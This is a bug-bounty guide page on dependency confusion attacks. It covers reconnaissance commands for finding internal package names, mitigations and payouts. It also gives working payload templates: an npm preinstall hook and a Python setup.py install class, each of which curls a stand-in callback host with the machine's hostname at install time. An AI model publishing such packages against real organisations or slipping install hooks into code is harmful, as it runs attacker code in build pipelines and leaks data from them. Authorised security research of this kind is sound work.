

> Source: https://bugbounty.info/Attack-Surface/CI-CD/Supply-Chain

# Supply Chain & Dependency Confusion

In 2021, Alex Birsan published research showing he could execute code inside Apple, Microsoft, PayPal, and dozens of other companies by exploiting how package managers resolve internal vs public dependencies. The technique is called dependency confusion. It's one of the highest-paying bug classes in programs that have it in scope and most hunters aren't looking for it.

The core insight: if a company uses a private package named `company-utils` on their internal registry, and you publish `company-utils` on the public npm/PyPI/RubyGems registry with a higher version number, many package managers will pull your malicious public version instead of the internal one.

---

## How Dependency Confusion Works



The attack works because:

1. **Version priority** - most package managers prefer the highest available version across all configured registries
2. **No namespace enforcement** - public registries let anyone claim any unclaimed package name
3. **Install-time code execution** - npm `preinstall`/`postinstall` scripts, Python `setup.py`, Ruby `extconf.rb` all run during install

---

## Reconnaissance

The first step is finding internal package names. You need names that exist on a private registry but haven't been claimed on the public one.

**JavaScript / npm:**

```bash
# Look for scoped vs unscoped packages in package.json
# Scoped packages (@company/utils) are safer - they require org ownership on npm
# Unscoped internal packages are the target
 
# Check if a package exists on public npm
curl -s https://registry.npmjs.org/company-utils | jq .error
# "Not found" = potential target
 
# Sources of internal package names:
# - package.json in public repos (dependencies, devDependencies)
# - JavaScript source maps in production (.js.map files)
# - Webpack chunk names in built JS
# - Error messages / stack traces leaking module paths
# - package-lock.json / yarn.lock with "resolved" pointing to private registries
```

**Python / PyPI:**

```bash
# Check if a package exists on public PyPI
curl -s -o /dev/null -w "%{http_code}" https://pypi.org/pypi/company-utils/json
# 404 = potential target
 
# Sources:
# - requirements.txt in public repos
# - setup.py / setup.cfg / pyproject.toml install_requires
# - Pip install error messages
# - Docker images with pip freeze output
# - Internal docs accidentally exposed
```

**Other ecosystems:**

```bash
# RubyGems
gem search company-utils --remote  # check if claimed
 
# NuGet (.NET)
curl -s "https://api.nuget.org/v3/registration5-semver1/company-utils/index.json"
 
# Go modules - harder to exploit since modules are URL-based
# But check for replace directives in go.mod pointing to internal repos
```

---

## Where to Find Internal Package Names

This is the recon phase that makes or breaks the attack.

**Public repositories:**

- `package.json`, `requirements.txt`, `Gemfile`, `go.mod` in any public repo owned by the target
- Lock files (`package-lock.json`, `yarn.lock`, `Pipfile.lock`) often contain registry URLs that confirm internal packages
- Monorepo workspace configs (`lerna.json`, `pnpm-workspace.yaml`)

**Client-side JavaScript:**

```bash
# Download production JS bundles and search for module names
curl -s https://target.com/static/js/main.js | grep -oP 'require\("([^"@][^"]*?)"\)'
# Look for non-public module names
 
# Source maps if available
curl -s https://target.com/static/js/main.js.map | jq -r '.sources[]' | grep -v node_modules
```

**Build artifacts and Docker images:**

```bash
# Public Docker images often contain package manifests
docker pull target/app:latest
docker run --rm target/app:latest cat /app/package.json
docker run --rm target/app:latest pip freeze
```

**Error messages and stack traces:**

- Sentry/error tracking dashboards if exposed
- Verbose error pages in staging environments
- Build logs in CI artifacts

---

## Building the Payload

You need to prove code execution without causing harm. Birsan's approach used DNS callbacks. Your install script makes a DNS lookup to a server you control, proving execution happened and leaking metadata about the build environment.

**npm (package.json):**

```json
{
  "name": "target-internal-utils",
  "version": "99.0.0",
  "description": "Security research - dependency confusion test",
  "scripts": {
    "preinstall": "curl https://YOUR-CALLBACK.oastify.com/npm/$(hostname | base64)"
  }
}
```

**Python (setup.py):**

```python
from setuptools import setup
from setuptools.command.install import install
import subprocess, base64, socket
 
class PostInstall(install):
    def run(self):
        hostname = base64.b64encode(socket.gethostname().encode()).decode()
        subprocess.call([
            "curl", f"https://YOUR-CALLBACK.oastify.com/pypi/{hostname}"
        ])
        install.run(self)
 
setup(
    name="target-internal-utils",
    version="99.0.0",
    description="Security research - dependency confusion test",
    cmdclass={"install": PostInstall},
)
```

**What to include in the callback:**

- Hostname (proves internal execution)
- Username running the build
- Working directory path
- Internal IP address
- Nothing destructive, no data exfiltration beyond proof of execution

---

## Proving Impact

A DNS/HTTP callback alone proves code execution. To demonstrate severity:

1. **Build pipeline execution** - if the callback comes from a CI runner, you've proven arbitrary code execution in their build environment
2. **Environment metadata** - hostname, IP, username show this ran internally, not in a sandbox
3. **Potential access** - document what a malicious actor could access from that context (secrets, cloud creds, source code, deploy tokens)
4. **Automated propagation** - if the dependency is in a shared library, every project that depends on it gets compromised

---

## Scope Considerations

Before testing, verify:

- **Is supply chain / dependency confusion explicitly in scope?** Many programs now include it. Some exclude it. Check the policy.
- **Does the program accept theoretical findings or require proof of execution?** Some want the DNS callback. Others accept proof that the package name is unclaimed plus evidence it's used internally.
- **Are you allowed to publish packages?** Some programs want you to report the unclaimed name without actually publishing a malicious package. Others want the full chain.

Programs that commonly accept this:

- Microsoft, Google, Apple (all paid Birsan for the original research)
- Most enterprise SaaS with explicit supply chain scope
- Programs on HackerOne/Bugcrowd that mention "supply chain" in scope

---

## Mitigations You'll Encounter

**Scoped packages (npm):** `@company/utils` can only be published by the `@company` org owner on npm. If the target uses scoped packages consistently, dependency confusion via npm is blocked.

**Registry pinning:** Lock files with `resolved` URLs pointing exclusively to the private registry. pip's `--index-url` (not `--extra-index-url`) restricts to a single registry.

**Package name reservation:** Some companies proactively claim their internal package names on public registries with empty placeholder packages.

**Artifactory / Nexus configuration:** A properly configured proxy can prefer the private registry or block public fallback entirely.

---

## Related Techniques

**Namespace confusion:** In ecosystems like Go where module paths are URLs, look for expired domains in `go.mod` replace directives. If you can register the domain, you control the module.

**GitHub Actions supply chain:** `uses: some-org/action@main` instead of a pinned SHA. If you can compromise or fork that action repo, you get code execution in every workflow that references it. See [GitHub Actions](../../Attack-Surface/CI-CD/GitHub-Actions) for details.

---

## Real-World Payouts

Dependency confusion pays well because the impact is code execution in the build pipeline:

- Birsan's original research earned over $130,000 across multiple programs
- Microsoft paid $40,000 for a single dependency confusion finding
- Most programs classify this as High or Critical severity
- Easy to validate, hard for triage to dispute

---

## Related

- [GitHub Actions](../../Attack-Surface/CI-CD/GitHub-Actions) - Supply chain via Actions, `pull_request_target` exploitation
- [Secret Leakage](../../Attack-Surface/CI-CD/Secret-Leakage) - What you find once you're executing in the pipeline
- [Cloud Attack Surface](../../Attack-Surface/Cloud/) - Where pipeline credentials lead
